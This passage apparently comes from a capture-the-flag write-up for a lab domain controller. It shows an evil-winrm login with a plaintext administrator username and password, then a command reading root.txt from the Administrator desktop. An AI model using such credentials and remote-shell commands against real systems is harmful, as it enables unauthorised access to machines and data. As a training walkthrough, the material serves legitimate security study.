 <figure><img src="../../../.gitbook/assets/image (28) (1).png" alt=""><figcaption></figcaption></figure>

Access as a `steph.cooper_adm` into DC using `evil-winrm`.

```bash
evil-winrm -i 10.10.11.70 -u 'steph.cooper_adm' -p 'FivethChipOnItsWay2025!'
```

### Root.flag

With the `Administrators` privilege we can read the `root.txt` in the `Administrator` directory.

```
more C:\Users\Administrator\Desktop\root.txt
```

